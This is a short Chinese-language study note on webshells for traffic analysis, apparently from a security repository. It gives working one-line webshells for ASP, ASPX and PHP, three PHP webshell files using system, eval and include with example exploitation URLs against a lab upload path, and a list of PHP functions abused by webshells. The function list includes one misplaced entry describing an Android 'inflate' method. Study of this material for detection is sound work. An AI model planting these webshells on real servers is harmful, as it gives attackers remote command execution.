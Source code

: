 # 流量分析-Webshell

常见的一句话木马：

```
asp一句话 <%eval request("pass")%>
aspx一句话 <%@ Page Language="Jscript"%><%eval(Request.Item["pass"],"unsafe");%>
php一句话 <?php @eval($_POST["pass"]);?>
```

## 什么是Webshell

- Webshell看起来和普通的服务端脚本一样，看起来就像普通的代码。
- Webshell对本地资源具备一定的操作能力，其操作本地资源的范围取决于解析器的权限。

```php
# Webshell: 1.php
<?php echo system($_GET["cmd"]);?>
# 利用方式 
http://ip:port/hackable/uploads/1.php?cmd=ls
```

```php
# Webshell: 2.php
<?php eval($_GET["cmd"]);?>
# 利用方式
http://ip:port/hackable/uploads/2.php?cmd=phpinfo();
```

```php
#  Webshell: 3.php
<?php include "shell.jpg";?>
# 利用方式
# 上传shell.jpg到同一目录，其中包含代码<?php phpinfo();?>
# 文件也可以是shell.jsp、shell.txt
http://ip:port/hackable/uploads/3.php
```

## Webshell恶意函数

```
fwrite：写入文件（可安全用于二进制文件）。
eval：把字符串作为PHP代码执行。
exec：执行一个外部程序。
system：执行外部程序，并且显示输出。
stripslashes：反引用一个引用字符串。
inflate：inflate方法的主要作用就是将xml转换成一个View对象，用于动态的创建布局。
gzinflate：gzinflate()，gzdeflate()是压缩与解压缩算法。
passthru：执行外部程序并且显示原始输出。
move_uploaded_file：将上传的文件移动到新位置。
phpinfo：输出关于 PHP 配置的信息。
```

## 图片马制作方式
